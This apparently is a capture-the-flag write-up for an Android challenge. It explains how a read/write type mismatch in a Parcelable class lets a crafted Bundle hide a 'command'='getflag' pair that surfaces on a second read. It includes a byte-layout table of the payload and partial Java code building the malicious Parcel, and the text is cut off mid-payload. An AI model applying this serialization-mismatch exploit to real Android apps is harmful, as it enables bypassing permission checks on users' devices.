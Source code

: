`writeString`will put '\0' to the end of string. 
PAD_SIZE will make the length of unit be the multipiles of 4.

### Exploit
`MainActivity$Message` is a class implementing from `Parceable`.
There are two type-difference:
1. 
```
this.txRate = in.readInt();
dest.writeByte((byte) this.txRate);
```
2. 
```
this.rttSpread = in.readLong();
dest.writeInt((int) this.rttSpread);
```

Through test I found that the first type-difference which in byte and int will not create influence, because of PAD_SIZE.
So the second type-difference will cover 4 bytes after `Message` object every times `readFromParcel` and `writeToParcel`.

The intent of this challenge is to hide a key-value pair `'command'='getflag'`, and expose it when it reads again.

The order of bundle is 'length of key, content of key, type of value, length of value, content of value'.

It means that the writing will cover `length of key` and make the first 4 bytes of origin `content of key` the new `length of key`.

So we can construct this payload:

|Message|len_key|content_key|type_value|len_value|content_value|
|--|--|--|--|--|--|
|pad|15 00 00 00|07 00 00 00 "command" 00 00 00 00 00 00 07 00 00 00 "getflag" 00 00| 00 00 00 00|03 00 00 00| "pad" |
|pad 15 00 00 00|07 00 00 00| "command" 00 00|00 00 00 00|07 00 00 00|"getflag" 00 00|

The format of string is UTF-16, two bytes every char.
type=0 means `VAL_STRING`.

Another need to do is that `Receiver2` need `bundle.getString("command")!=null`, so we need another key-value pair `'command'='xxx'`.


So one of the payloads is:
```java
        Parcel a = Parcel.obtain();
        Parcel b = Parcel.obtain();
        a.writeInt(3);//Count
        a.writeString("mismatch");
        a.writeInt(4);//Parcable
        a.writeString("com.de1ta.broadcasttest.MainActivity$Message");
        a.writeString("bssid");
        a.writeInt(1);
        a.writeInt(2);
        a.writeInt(3);
        a.writeInt(4);
        a.writeInt(5);
        a.writeInt(6);
        a.writeInt(7);
        a.writeLong(8);
        a.writeInt(9);
        a.writeInt(10);
        a.writeInt(-1);
        a.writeLong(11);
        a.writeLong(12);
```